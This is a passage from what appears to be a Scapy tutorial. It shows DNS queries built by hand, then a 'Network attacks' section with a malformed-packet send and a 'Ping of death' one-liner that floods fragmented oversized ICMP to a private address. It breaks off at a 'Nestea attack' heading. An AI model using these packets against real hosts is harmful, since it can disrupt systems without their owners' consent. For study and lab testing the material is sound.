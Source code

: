 

<b><i>=> DNS Requests</i></b>

IPv4 (A) request:
**IPv4 (A) request:
**
This will perform a DNS request looking for IPv4 addresses

```
>>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="A")))
>>> ans.an.rdata
'217.25.178.5'
```
<b><i>=> SOA request:</i></b>

```
>>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="SOA")))
>>> ans.ns.mname
b'dns.ovh.net.'
>>> ans.ns.rname
b'tech.ovh.net.'
```
<b><i>=> MX request:</i></b>

```
>>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="google.com",qtype="MX")))
>>> results = [x.exchange for x in ans.an.iterpayloads()]
>>> results
[b'alt1.aspmx.l.google.com.',
 b'alt4.aspmx.l.google.com.',
 b'aspmx.l.google.com.',
 b'alt2.aspmx.l.google.com.',
 b'alt3.aspmx.l.google.com.']
```

##### <b><i>Network attacks</i></b>

<b><i>=> Malformed packets</i></b>

```
>>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())                                                                                                                  . Sent 1 packets. >>>
```

<b><i>=> Ping of death (Muuahahah):</i></b>

```
>>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )                                                                                                           
.........................................
Sent 41 packets.
>>>
```
<b><i>=> Nestea attack:</i></b>
